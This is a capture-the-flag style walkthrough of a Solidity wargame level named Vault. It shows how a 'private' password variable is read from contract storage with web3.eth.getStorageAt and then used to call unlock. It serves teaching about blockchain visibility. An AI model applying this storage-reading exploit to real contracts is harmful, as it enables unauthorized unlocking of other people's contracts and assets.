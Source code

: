 # Vault

Unlock the vault to pass the level!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

The trick with this challenge is that everything on the blockchain is public knowledge. The only thing that private does is prevent other contracts from reading a variable. Just noting that if the variable is marked as internal then another contract can inherit and read the data. 

https://www.tutorialspoint.com/solidity/solidity_variable_scope.htm

The following page was found that described reading data from the blockchain it's self. https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925

Using this page I was able to come up with the command to pull the password variable from the contract. 

```js
await web3.eth.getStorageAt(contract.address, 1)
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
```

In this case the 2 varibale (index of 1) is the password variable. 

After getting the password we just call the unlock function with the password.

```js
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
await contract.locked()
false
```

Then we submit and profit.